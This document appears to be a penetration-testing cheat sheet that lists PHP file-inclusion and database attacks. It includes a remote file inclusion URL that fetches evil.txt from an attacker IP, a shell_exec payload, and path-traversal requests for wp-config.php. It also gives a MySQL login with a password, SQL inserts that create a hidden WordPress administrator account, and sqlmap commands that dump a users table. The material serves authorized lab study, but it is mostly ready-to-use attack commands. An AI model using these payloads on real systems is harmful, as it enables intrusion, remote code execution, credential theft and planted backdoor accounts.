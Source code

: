 ### LFI & RFI

* For a Remote File Inclusion look for php code that is not sanitized and passed to the PHP include function and the php.ini file must be configured to allow remote files

/etc/php5/cgi/php.ini - "allow_url_fopen" and "allow_url_include" both set to "on"

include($_REQUEST["file"].".php");

* Remote File Inclusion

http://192.168.11.35/addguestbook.php?name=a&comment=b&LANG=http://192.168.10.5/evil.txt

<?php echo shell\_exec("ipconfig");?>


oneExample:
GET /../../../../xampp\php\extras\browscap.ini
GET /../../../../xampp/htdocs/blog/wp-config.php


### DB

#### Connect MariaDB
mysql -u root 10.10.10.10 -p Password@1

SQL Query for Wordpress:
```
INSERT INTO `databasename`.`wp_users` (`ID`, `user_login`, `user_pass`, `user_nicename`, `user_email`, `user_url`, `user_registered`, `user_activation_key`, `user_status`, `display_name`) VALUES ('4', 'demo', MD5('demo'), 'Your Name', 'test@yourdomain.com', 'http://www.test.com/', '2011-06-07 00:00:00', '', '0', 'Your Name');
 
 
INSERT INTO `databasename`.`wp_usermeta` (`umeta_id`, `user_id`, `meta_key`, `meta_value`) VALUES (NULL, '4', 'wp_capabilities', 'a:1:{s:13:"administrator";s:1:"1";}');
 
 
INSERT INTO `databasename`.`wp_usermeta` (`umeta_id`, `user_id`, `meta_key`, `meta_value`) VALUES (NULL, '4', 'wp_user_level', '10');
```

#### SQLMAP
```
sqlmap -r req2.txt --risk=3 --level=5 -p csid --dbms="MySQL" --dbs
sqlmap -r req2.txt --risk=3 --level=5 -p csid --dbms="MySQL" --tables -D cscart
sqlmap -r req2.txt --risk=3 --level=5 -p csid --dbms="MySQL" --columns -D cscart -T cscart_users
sqlmap -r req2.txt --risk=3 --level=5 -p csid --dbms="MySQL" --dump -D cscart -T cscart_users
```

